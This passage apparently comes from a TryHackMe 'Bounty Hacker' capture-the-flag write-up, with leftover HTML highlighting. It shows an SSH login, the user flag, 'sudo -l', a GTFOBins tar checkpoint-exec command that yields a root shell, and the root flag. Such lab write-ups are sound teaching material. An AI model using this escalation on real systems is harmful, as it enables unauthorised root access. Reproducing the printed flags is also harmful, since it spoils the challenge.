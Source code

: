 lin@<span class="hljs-number">10.10</span>.<span class="hljs-number">74.157</span><span class="hljs-symbol">'s</span> password: 
Welcome <span class="hljs-keyword">to</span> Ubuntu <span class="hljs-number">16.04</span>.<span class="hljs-number">6</span> LTS (GNU/Linux <span class="hljs-number">4.15</span>.<span class="hljs-number">0</span>-<span class="hljs-number">101</span>-<span class="hljs-keyword">generic</span> x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

<span class="hljs-number">83</span> packages can be updated.
<span class="hljs-number">0</span> updates are security updates.

Last login: Sun Jun  <span class="hljs-number">7</span> <span class="hljs-number">22</span>:<span class="hljs-number">23</span>:<span class="hljs-number">41</span> <span class="hljs-number">2020</span> from <span class="hljs-number">192.168</span>.<span class="hljs-number">0.14</span>
lin@bountyhacker:~/Desktop$
</code></pre><pre><code>lin@bountyhacker:~/Desktop$ ls -alt
total 12
drwxr-xr-x<span class="hljs-number"> 19 </span>lin lin<span class="hljs-number"> 4096 </span>Jun <span class="hljs-number"> 7 </span><span class="hljs-number"> 2020 </span>..
-rw-rw-r-- <span class="hljs-number"> 1 </span>lin lin  <span class="hljs-number"> 21 </span>Jun <span class="hljs-number"> 7 </span><span class="hljs-number"> 2020 </span>user.txt
drwxr-xr-x <span class="hljs-number"> 2 </span>lin lin<span class="hljs-number"> 4096 </span>Jun <span class="hljs-number"> 7 </span><span class="hljs-number"> 2020 </span>.
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR1M3_SyNd1C4T3}
</code></pre><hr>
<p><strong>Privilege Escalation</strong></p>
<p>In order to reach the root flag the first thing I did was run the following command. </p>
<pre><code>lin<span class="hljs-variable">@bountyhacker</span><span class="hljs-symbol">:~/Desktop</span><span class="hljs-variable">$ </span>sudo -l
[sudo] password <span class="hljs-keyword">for</span> <span class="hljs-symbol">lin:</span> 
Matching Defaults entries <span class="hljs-keyword">for</span> lin on <span class="hljs-symbol">bountyhacker:</span>
    env_reset, mail_badpass, secure_path=<span class="hljs-regexp">/usr/local</span><span class="hljs-regexp">/sbin\:/usr</span><span class="hljs-regexp">/local/bin</span>\<span class="hljs-symbol">:/usr/sbin</span>\<span class="hljs-symbol">:/usr/bin</span>\<span class="hljs-symbol">:/sbin</span>\<span class="hljs-symbol">:/bin</span>\<span class="hljs-symbol">:/snap/bin</span>

User lin may run the following commands on <span class="hljs-symbol">bountyhacker:</span>
    (root) /bin/tar
</code></pre><p>Lin has root privileges to execute the /bin/tar command</p>
<p>I then went to <a href="https://gtfobins.github.io/gtfobins/tar/#sudo">GTFOBins</a> and searched for tar. GTFOBins describes itself as a curated list of Unix binaries that can be used to bypass local security restrictions in misconfiguration systems</p>
<p>Running the following command allowed me to get a root shell and read the root.txt flag located in the root directory</p>
<pre><code>lin<span class="hljs-variable">@bountyhacker</span><span class="hljs-symbol">:~/Desktop</span><span class="hljs-variable">$ </span>sudo tar -cf /dev/null /dev/null --checkpoint=<span class="hljs-number">1</span> --checkpoint-action=exec=<span class="hljs-regexp">/bin/sh</span>
<span class="hljs-symbol">tar:</span> Removing leading `/<span class="hljs-string">' from member names
# ls /root
root.txt
# cat /root/root.txt
THM{80UN7Y_h4cK3r}</span>
</code></pre>
